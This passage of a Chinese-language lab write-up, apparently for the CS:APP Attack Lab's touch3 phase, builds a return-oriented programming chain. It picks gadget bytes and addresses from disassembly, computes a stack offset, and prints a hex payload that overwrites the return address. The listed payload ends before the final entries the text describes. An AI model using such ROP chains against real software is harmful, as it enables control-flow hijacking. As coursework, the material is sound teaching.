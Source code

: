 `movq %rax %rdi`编码为`48 89 c7`，地址为`0x4019a2`。

##### 2. 将偏移传给`$rsi`

先将偏移写到栈里，再通过如下`4`条指令传到`$rsi`：

```
pop %rax
mov %eax, %edx
mov %edx, %ecx
mov %ecx, %rsi
```

在以下的`gadget`中找到这`4`条指令：

```assembly
00000000004019ca <getval_280>:
  4019ca:   b8 29 58 90 c3          mov    $0xc3905829,%eax
  4019cf:   c3                      retq
00000000004019db <getval_481>:
  4019db:   b8 5c 89 c2 90          mov    $0x90c2895c,%eax
  4019e0:   c3                      retq
0000000000401a33 <getval_159>:
  401a33:   b8 89 d1 38 c9          mov    $0xc938d189,%eax
  401a38:   c3                      retq
0000000000401a11 <addval_436>:
  401a11:   8d 87 89 ce 90 90       lea    -0x6f6f3177(%rdi),%eax
  401a17:   c3                      retq
```

`pop %rax`编码为`58`, 地址为`0x4019cc`。

`mov %eax %edx`编码为`89 c2`，地址为`0x4019dd`。

`mov %edx %ecx`编码为`89 d1`，地址为`0x401a34`。

`mov %ecx,%esi`编码为`89 ce`，地址为`0x401a13`。

##### 3. 将`cookie`字符串传给`%rdi`

利用`lea ($rdi,%rsi,1),%rax`，地址为`0x4019d6`。

##### 4. 将`%rax`传给`$rdi`

```assembly
00000000004019c3 <setval_426>:
  4019c3:   c7 07 48 89 c7 90       movl   $0x90c78948,(%rdi)
  4019c9:   c3                      retq
```

`mov %rax,%rdi`编码为`48 89 c7`，地址为`0x4019c5`。

到此，我们完成了`gadget`的构造，只需继续在栈中依次填入`touch3`返回地址，`cookie`字符串，`0`(字符串结束标志)，再确定偏移即可。

偏移应该是cookie字符串首地址减去(返回地址+0x8)， 中间隔了`9`条指令，因此偏移量为`72`, 即`0x48`

输入的字符串如下：

```txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ad 1a 40 00 00 00 00 00			# 改写返回地址为0x401aad			
a2 19 40 00 00 00 00 00			# 计算偏移的起始地址，返回地址+0x8
cc 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00			# 确定偏移为0x48 
dd 19 40 00 00 00 00 00
34 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
```